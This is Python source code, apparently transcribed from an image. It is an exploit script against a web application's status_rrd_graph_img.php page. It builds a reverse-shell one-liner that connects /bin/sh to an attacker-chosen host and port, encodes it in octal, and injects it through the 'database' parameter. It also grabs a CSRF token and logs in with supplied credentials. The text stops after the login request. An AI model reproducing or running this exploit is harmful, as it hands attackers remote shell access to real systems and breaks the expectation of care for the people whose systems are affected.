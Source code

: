 ```python
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()
```